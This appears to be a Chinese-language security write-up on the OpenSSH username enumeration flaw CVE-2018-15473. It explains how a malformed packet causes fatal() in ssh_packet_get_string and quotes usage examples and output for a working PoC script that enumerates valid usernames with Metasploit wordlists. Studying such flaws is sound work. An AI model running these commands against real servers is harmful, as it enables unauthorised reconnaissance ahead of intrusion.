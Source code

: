 下面是解析恶意消息的过程：

![image](img/ceea264f45023f032083451410d02705.png)

结果就是，代码解析了一个1907字节的字符串（十六进制为0×00000773），这比整个消息的长度还要长，这会导致ssh_packet_get_string调用fatal函数，并中断OpenSSH进程。

### poc补充

> 不知道为什么上面那个poc运行就报错了。这里找了一个能用的poc

> ## Examples
> 
> A single username
> 
> ```
> (cve-2018-15473)─> ./ssh-username-enum.py -u epi 192.168.1.2
> [+] epi found! 
> ```
> 
> Use a wordlist with 10 threads (the default is 4)
> 
> ```
> (cve-2018-15473)─> ./ssh-username-enum.py -t 10 -w /usr/share/metasploit-framework/data/wordlists/unix_users.txt 192.168.1.2
> [+] avahi found!
> [+] avahi-autoipd found!
> [+] backup found!
> [+] daemon found!
> [+] bin found!
> ------8<------ 
> ```
> 
> IPv6 Address on port 2222 and INCREASED VERBOSITY!
> 
> ```
> (cve-2018-15473)─> ./ssh-username-enum.py -6 -p 2222 -v -w /usr/share/metasploit-framework/data/wordlists/unix_users.txt '::1'
> [-] 4Dgifts not found
> [-] demo not found
> [-] checkfs not found
> [-] anon not found